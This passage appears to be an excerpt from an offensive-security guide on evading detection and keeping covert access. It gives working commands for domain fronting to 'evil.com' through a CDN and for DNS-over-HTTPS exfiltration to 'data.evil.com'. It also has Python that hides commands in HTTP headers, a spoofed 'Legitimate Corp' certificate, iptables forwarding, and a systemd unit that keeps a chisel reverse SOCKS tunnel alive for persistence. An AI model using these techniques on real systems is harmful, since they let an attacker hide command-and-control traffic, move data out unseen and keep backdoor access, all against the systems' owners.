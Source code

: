 ### 12.4 Advanced Evasion Techniques

#### Domain Fronting:

```bash
# Use legitimate CDN for traffic fronting
curl -H "Host: evil.com" https://legitimate-cdn.cloudfront.net/beacon

# DNS over HTTPS for covert communication
curl -H "Accept: application/dns-json" \
     "https://cloudflare-dns.com/dns-query?name=data.evil.com&type=TXT"
```

#### Steganographic Tunneling:

```python
# Hide data in HTTP headers
headers = {
    'User-Agent': 'Mozilla/5.0',
    'X-Forwarded-For': base64_encode(command),
    'Accept-Language': encrypt(data)
}
```

#### Certificate Pinning Bypass:

```bash
# Custom certificate generation
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 \
    -subj "/C=US/ST=CA/L=San Francisco/O=Legitimate Corp/CN=*.legitimate.com"
```

## 13. Platform-Specific Implementation Considerations
:::note
Adapt scripts, service definitions, and persistence mechanisms to your platform (Linux, Windows, container, or cloud). Substitute example IPs, file paths, and user names as required.
:::
### 13.1 Linux-Specific Techniques

```bash
# iptables-based port forwarding
iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 192.168.1.100:80
iptables -t nat -A POSTROUTING -j MASQUERADE

# systemd service for persistence
cat > /etc/systemd/system/tunnel.service << EOF
[Unit]
Description=Network Tunnel Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/chisel client server:8080 R:socks
Restart=always
User=nobody

[Install]
WantedBy=multi-user.target
EOF
```
